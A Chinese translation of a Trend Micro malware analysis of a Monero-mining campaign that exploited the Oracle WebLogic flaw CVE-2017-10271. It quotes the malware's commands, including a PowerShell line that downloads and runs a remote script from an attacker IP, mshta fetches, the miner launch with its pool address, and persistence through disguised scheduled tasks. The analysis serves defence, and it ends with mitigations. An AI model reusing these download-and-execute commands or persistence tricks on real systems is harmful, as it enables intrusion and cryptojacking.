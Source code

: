 > 原文链接: https://www.anquanke.com//post/id/99441 


# 恶意软件分析：利用Oracle服务器远程执行漏洞进行门罗币挖矿


                                阅读量   
                                **123582**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者trend micro，文章来源：blog.trendmicro.com
                                <br>原文地址：[https://blog.trendmicro.com/trendlabs-security-intelligence/oracle-server-vulnerability-exploited-deliver-double-monero-miner-payloads/](https://blog.trendmicro.com/trendlabs-security-intelligence/oracle-server-vulnerability-exploited-deliver-double-monero-miner-payloads/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t0168d54311f9f1fb5e.jpg)](https://p4.ssl.qhimg.com/t0168d54311f9f1fb5e.jpg)



## 简介

随着加密货币的不断发展，黑客们所针对的目标也发生了转变。目前，网络犯罪分子开始调整策略，使用他们的资源来尝试获取加密货币，包括窃取加密货币钱包和攻陷网络设备使其挖掘加密货币。多年来，勒索软件的作者一直在使用比特币作为他们的首选货币。但最近，我们从2017年10月开始，监测到加密货币挖矿恶意软件的爆发，在应用商店中还发现用于加密货币挖矿的移动恶意应用。2017年12月，Digmine加密货币挖矿恶意软件开始通过社交软件进行传播。<br>
而现在，有两个恶意软件利用了CVE-2017-10271（一种允许远程执行代码的Oracle WebLogic WLS-WSAT漏洞， [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-10271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-10271) ），它们分别是XMRig Menero挖矿恶意软件的64位变体和32位变体。假如某一版本与被感染的Windows计算机不兼容，则会自动运行另一个版本。在下图中，说明了该漏洞的代码仍在开发中。本报告分析了最新版本的样本。

[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer1.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer1.png)



## 利用漏洞投放双重矿工有效载荷

在撰写本文时，我们发现已经存在CVE-2017-10271的EXP，并且该漏洞被用于承载名为Coinminer_MALXMR.JL-PS的有效载荷（ [https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/coinminer_malxmr.jl-ps](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/coinminer_malxmr.jl-ps) ）。当该有效载荷成功执行时，就可以在被感染的主机上运行双重门罗币矿工。

[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer2.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer2.png)<br>
在执行Coinminer_MALXMR.JL-PS之后，会将三个文件下载到主机上：挖掘组件javaupd.exe（被检测为Coinminer_TOOLXMR.JL-WIN64）、自动启动组件startup.cmd（被检测为Coinminer_MALXMR.JL-BAT）以及另一个恶意文件3.exe（被检测为Coinminer_MALXMR.JLT-WIN32）。<br>
根据我们对最新有效载荷的分析，我们发现该恶意软件会根据操作系统的架构来选择运行加密货币矿工。如果是64位版本的系统，就会运行第一个矿工程序；如果是32位系统，那就会运行第二个矿工程序。



## 更多设备会受到多个矿工版本的影响

由于感染过程会首先在主机上安装自动启动组件。以我们所分析的样本为例，恶意软件通过将startup.cmd复制到Startup文件夹来完成这一操作。.cmd文件会在系统启动时打开，然后执行mshta hxxp://107.181.174.248/web/p.hta 。<br>
随后，将会执行PowerShell命令：

```
cmd /c powershell.exe -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command iex ((New-Object System.Net.WebClient).DownloadString(‘hxxp://107.181.174.248/web/check.ps1’))
```

恶意软件会创建两个不同的计划任务：<br>
第一项任务不断尝试下载矿工程序，并且反复执行。该任务将会执行mshta hxxp://107.181.174.248/web/p.hta，其名称为“Oracle Java Update”。该任务每80分钟执行一次，其进程与startup.cmd文件相同。<br>
另一个计划任务名称为“Oracle Java”，该任务每天执行，会终止最开始的挖掘组件，并继续执行以下命令：

```
cmd /c taskkill /im powershell.exe /f
cmd /c taskkill /im javaupd.exe /f
cmd /c taskkill /im msta.exe /f （我们怀疑开发人员在这里出现了错误，推测应该是mshta.exe）
```

在创建这些计划任务之后，Coinminer_MALXMR.JL-PS将会执行其加密货币挖掘组件javaupd.exe，从而允许挖掘过程开始。它使用如下命令：

```
cmd.exe /c C:ProgramDatajavaupd.exe -o eu.minerpool.pw:65333 -u `{`Computer Name`}`
```

挖矿过程可能会减慢系统运行速度，并影响性能。<br>
第二个有效载荷，即下载的3.exe文件会检查系统所运行的架构是32位还是64位。基于操作系统的架构，它会下载并执行一个新文件LogonUI.exe（检测为COINMINER_MALXMR.JL-WIN32）。如果第一个64位的加密货币挖掘组件未运行，LogonUI将下载一个.DLL文件（检测为COINMINER_MALXMR.FD-WIN32），随后将下载并执行第二个加密货币挖掘组件sqlservr.exe（检测为COINMINER_TOOLXMR.JL-WIN32）。<br>
第二个组件能与32位Windows兼容，并将运行在32位系统上。此外，它还能够随每次开机自动启动并创建一个计划任务，使它能够每天自动执行：
1. LogonUI已注册为服务；
1. 该服务被命名为“Microsoft Telemetry”；
1. 创建每天执行“Microsoft Telemetry”的计划任务。
[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer3.jpg)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/Coinminer3.jpg)<br>
该加密货币挖掘恶意软件会尽可能多地感染设备，由于它需要大量的计算能力，这样才能尽可能多地挖掘到加密货币。借助于这两个有效载荷，这两个系统每天都能够自动启动，从而使得恶意软件能长期、持久地感染主机。<br>
该恶意程序也会通过关闭其它软件的方式，以充分利用自己所感染的机器。实际上，它会种植spoosvc.exe，并删除计划任务“Spooler SubSystem Service”，这是另一个被命名为TROJ_DLOADR.AUSUHI的加密货币矿工软件的已知行为。



## 对用户产生的影响及相应对策

该恶意软件耗费系统的大量CPU和GPU资源，使系统运行得异常缓慢。起初，考虑到其他的影响因素，用户可能不会意识到有威胁的存在。但是，正如我们在上文所提到的，考虑到自2017年以来加密货币挖矿攻击的现象一直在增加，因此用户可能遭受更多恶意软件变种的威胁。网络犯罪分子正在努力尝试以全新的方式来向用户提供挖掘软件。<br>
定期修复和及时对软件进行更新，可以缓解加密货币恶意软件的威胁，并降低系统漏洞被利用的潜在风险。上述漏洞已于2017年10月进行了修复。IT/系统管理员和信息安全专业人士可以考虑加入应用程序白名单或类似的安全机制，以防止可疑的可执行文件被运行或安装。最后，主动监测网络流量将有助于更好地识别恶意软件的特征。



## IoC

[![](https://p4.ssl.qhimg.com/t01be0e86197fc82e1a.png)](https://p4.ssl.qhimg.com/t01be0e86197fc82e1a.png)<br>[![](https://p1.ssl.qhimg.com/t01bb7f7a4fb2a392d5.png)](https://p1.ssl.qhimg.com/t01bb7f7a4fb2a392d5.png)
